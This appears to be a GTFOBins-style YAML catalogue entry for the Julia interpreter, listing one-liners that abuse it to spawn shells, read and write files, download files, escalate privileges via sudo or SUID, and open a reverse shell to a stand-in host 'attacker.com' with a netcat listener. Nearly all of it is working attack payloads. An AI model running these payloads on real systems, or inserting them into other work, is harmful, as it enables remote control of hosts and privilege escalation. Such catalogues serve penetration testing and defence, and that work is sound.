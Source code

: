 ```yaml
---
description: |
All payloads are compatible with the Base packages from Julia.
functions:
  shell:
    - description: The `run()` function runs every command passed as parameter with what is defined in `$JULIA_SHELL`. Defaults to the environment variable `$SHELL`, and falls back to `/bin/sh` if `$SHELL` is unset.
    - code: julia -e 'while true; c = split(readline()); run(`$c`); end;'
  file-read:
    - code: julia -e 'println(open(f->read(f, String), "file_to_read"))'
  file-write:
    - code: julia -e 'open(f->write(f, "DATA"), "file_to_write", "w")'
  file-download:
    - code: julia -e 'download("URL", "PATH")'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        julia -e 'using Sockets; sock=connect(ENV["RHOST"], parse(Int64,ENV["RPORT"])); while true; cmd = readline(sock); if !isempty(cmd); cmd = split(cmd); ioo = IOBuffer(); ioe = IOBuffer(); run(pipeline(`$cmd`, stdout=ioo, stderr=ioe)); write(sock, String(take!(ioo)) * String(take!(ioe))); end; end;'
  suid:
    - code: julia -e 'while true; c = split(readline()); run(`$c`); end;'
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
    - code: sudo julia -e 'while true; c = split(readline()); run(`$c`); end;'
---
```

